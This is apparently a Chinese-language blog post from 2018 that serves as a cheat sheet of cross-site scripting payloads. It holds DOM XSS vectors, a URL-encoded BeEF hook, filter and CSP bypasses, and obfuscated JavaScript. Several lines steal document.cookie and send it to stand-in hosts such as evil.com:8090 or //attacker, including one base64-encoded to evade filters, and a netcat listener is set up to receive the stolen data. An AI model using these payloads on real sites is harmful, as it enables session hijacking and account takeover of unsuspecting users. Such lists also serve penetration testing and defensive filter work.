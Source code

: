 ```yaml
---
layout: post
title:  XSS-Payload+姿势
noToc: true
date:   2018-12-18 09:30:00 +0800
tags: WEB安全 XSS
cover: '../assets/oauth.png'
---
```

### XSS-Payload+姿势

**0x1:XSS**

```html
btoa('<script>alert("xss")</script>')
"PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4="
btoa('<script>alert("xss")</script>1')
"PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4x"
```

**0x2:基于POST的XSS**
如果遇到无法将基于POST的XSS转换为GET请求的情况(可能目标服务器上禁用了GET请求)，试试CSRF。

**0x3:DOM XSS**

```html
<target.com>/#<img/src/onerror=alert("XSS")>
beef的hook，urlencode

<target.com>/#img/src/onerror=$("body").append(decodeURIComponent('%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%3a%2f%2f%3c%65%76%69%6c%20%69%70%3e%3a%33%30%30%30%2f%68%6f%6f%6b%2e%6a%73%3e%3c%2f%73%63%72%69%70%74%3e'))>
#<img/src="1"/onerror=alert(1)>
#><img src=x onerror=prompt(1);>
```

**0x5:偷Cookie**

```html
<img/src/onerror=document.location="http://evil.com:8090/cookiez.php?c="+document.cookie>
Blacklist bypass:
```

**0x6:过滤了`//,:,",<`和`>`**

```php+HTML
btoa('document.location="http://evil.com:8090/r.php?c="+document.cookie')
payload:

eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9ldmlsLmNvbTo4MDkwL3IucGhwP2M9Iitkb2N1bWVudC5jb29raW
```

**0x7:另外一个**：

```html
<script>new Image().src="http://evil.com:8090/b.php?"+document.cookie;</script>
比较不错的一个payload：

<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
```

**0x8:比较不错的一个payload**：

**```
<svg onload=fetch("//attacker/r.php?="%2Bcookie)>
<img alt="<a href="onclick=alert(4)//" src=x>">s</a>
<details/open/ontoggle="a=alert;a`1`">
<details/open/ontoggle="a=eval,b=alert,c=b`1`,a`b`">
> <svg / on </ script> load = alert`1`>
> <svg / on </ script> load = alert（1）>
绕过（）：setTimeout`alert\x28document.domain\x29`
"-prompt`1` - "//
```

nc 监听：

nc -lvp 8090

**0x9:常用的payload**

```html
svg/onload'-alert(1)-'
<details/open/ontoggle="a=eval,b=alert,c=b`1`,a`b`">
eval(atob('YWxlcnQoMSk='))
<iMg SrC=x OnErRoR=alert(1)>
<div onmouseover="alert('XSS');">
</Textarea/</Noscript/</Pre/</Xmp><Svg /Onload=confirm(document.domain)>
x@x.com<--`<img/src=` onerror=alert(1)> --!>
""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]][(''+{})[5]+(''+{})[1]+((""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]])+"")[2]+(!1+'')[3]+(!0+'')[0]+(!0+'')[1]+(!0+'')[2]+(''+{})[5]+(!0+'')[0]+(''+{})[1]+(!0+'')[1]](((!1+"")[1]+(!1+"")[2]+(!0+"")[3]+(!0+"")[1]+(!0+"")[0])+"(1)")()
oNcliCk=alert(1)%20)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>%5Cx3csVg/<img/src/o
CSP BYPASS
script-src self: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

